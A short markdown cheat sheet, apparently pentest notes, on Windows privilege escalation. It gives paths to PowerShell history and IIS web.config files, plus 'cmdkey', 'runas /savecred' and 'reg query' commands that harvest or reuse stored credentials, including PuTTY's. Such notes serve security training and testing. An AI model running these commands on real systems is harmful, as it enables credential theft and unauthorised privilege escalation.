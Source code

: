 # 3_privilege_escalation

## Powershell history

The powershell history can be found at 

```
$ENV:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## IIS configuration

IIS (Internet Information Services) is a web server software created by Microsoft for use with the Windows NT family.
The configuration of websites on IIS is stored in a file named `web.config` and can store credentials.
The file can be found at one of these locations

```
C:\inetpub\wwwroot\web.config
```
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

## Saved windows credentials

Windows allows you to use other user's credentials. The command below will list the saved user credentials on the system.

```
cmdkey /list
```
You can try to use these by running

```
runas /savecred /user:username cmd.exe
```

## Putty credentials

You can retrieve the stored proxy credentials by running

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

